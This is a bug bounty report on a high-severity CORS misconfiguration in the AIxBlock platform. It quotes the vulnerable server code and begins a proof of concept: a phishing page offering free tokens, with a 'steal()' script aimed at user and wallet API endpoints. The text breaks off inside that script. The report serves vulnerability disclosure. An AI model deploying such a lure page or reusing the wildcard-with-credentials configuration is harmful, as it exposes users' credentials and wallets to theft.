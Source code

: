 # AIxBlock Bug Bounty Submission #4: CORS Misconfiguration (HIGH)

## Submission Details
- **Researcher**: grich88 (j.grant.richards@proton.me)
- **Vulnerability**: CORS Misconfiguration with Wildcard Origin
- **Severity**: HIGH (CVSS 8.1)
- **Submission Date**: December 29, 2024
- **Target**: AIxBlock Platform

---

## Executive Summary

A high-severity CORS misconfiguration exists in the AIxBlock platform that allows cross-origin attacks through wildcard origin configuration. This vulnerability enables attackers to steal user credentials, API keys, and sensitive data from any malicious website.

**Impact**: Mass data theft, credential harvesting, cross-origin attacks
**Exploitability**: Very Easy (2-hour mass campaign)
**Affected Users**: All users with active sessions

---

## Vulnerability Details

### Description
The AIxBlock platform uses wildcard CORS configuration (`Access-Control-Allow-Origin: *`) with credentials enabled, allowing any malicious website to make authenticated requests and steal user data.

### Affected Files
- `target_repo/workflow/packages/backend/api/src/app/server.ts`

### Technical Details
```typescript
// VULNERABLE CODE in server.ts
await app.register(cors, {
  origin: true, // Allows all origins
  credentials: true, // Enables credentials
  methods: ['GET', 'POST', 'PUT', 'DELETE', 'PATCH'],
  allowedHeaders: ['Content-Type', 'Authorization', 'X-Requested-With']
});
```

### Proof of Concept

#### Step 1: Create Malicious Website
```html
<!-- Hosted at http://phishing-site.com -->
<!DOCTYPE html>
<html>
<body>
    <h1>Win Free AIxBlock Tokens!</h1>
    <button onclick="steal()">Claim Now</button>
    
    <script>
    async function steal() {
        // Target multiple endpoints
        const endpoints = [
            '/api/v1/users/me',
            '/api/v1/wallets',
```